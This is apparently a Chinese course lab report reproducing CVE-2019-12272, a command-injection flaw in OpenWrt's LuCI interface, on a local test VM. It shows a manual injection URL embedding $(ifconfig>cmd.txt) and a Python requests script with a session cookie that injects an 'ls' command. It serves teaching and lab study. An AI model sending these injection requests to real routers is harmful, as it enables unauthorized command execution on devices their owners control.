










# 第四章 CVE-2019-12272漏洞复现

## 实验内容

- [x] 手工漏洞复现
- [x] 漏洞利用
- [ ] 编写代码实现自动化利用

### 环境搭建
- 镜像文件转换

- 按照实验要求配置主机网络接口`VirtualBox Host-Only Ethernet Adapter #3`



- openwrt-cve的ip地址


- 安装 LuCI 软件包，在浏览器页面访问`192.168.56.31`


### 手工复现漏洞

- 先使用管理员账号登录 LuCI


- 使用浏览器访问`http://192.168.56.31/cgi-bin/luci/admin/status/realtime/bandwidth_status/eth0$(ifconfig%3ecmd.txt)`
- 页面没有返回json信息，重新输入访问漏洞的命令，在`;stok=……`字段后加`admin/status/realtime/bandwidth_status/eth0$(ifconfig%3ecmd.txt)`，成功触发漏洞


- 获取上一步命令的执行结果[注入命令为ifconfig]


- openwrt上出现cmd.txt文件


- 修改注入命令




### 漏洞利用


通过 Chrome 浏览器开发者工具的「Copy as curl」功能，将漏洞复现请求复制为 curl 命令 ，然后通过第三方网站 将 curl 命令转换为 Python requests 代码 ，再稍加改动添加继续访问 /cmd.txt 并打印服务器响应，得到示例如下：
```
import requests

cookies = {
    'sysauth': 'bf9270e2cf541265a1a9c747ee853fa2',
}

headers = {
    'Proxy-Connection': 'keep-alive',
    'Cache-Control': 'max-age=0',
    'Upgrade-Insecure-Requests': '1',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.77 Safari/537.36',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
    'Accept-Language': 'zh-CN,zh;q=0.9',
}

response = requests.get('http://192.168.56.31/cgi-bin/luci/;stok=f459c25cb6456f09cacdc2b6686ae419/admin/status/realtime/bandwidth_status/eth0%5E$(ls%5E%%5E3Ecmd.txt)', headers=headers, cookies=cookies, verify=False)
```


### 遇到的问题
- 需要自己手动在主机设置接口，实现网段在192.168.56.3
- ssh无法连接时要试试主机和虚拟机能否ping通

### 参考资料

- [课本](https://c4pr1c3.github.io/cuc-mis/chap0x04/exp.html)

- [课程教学视频](https://www.bilibili.com/video/BV1rr4y1A7nz?p=100)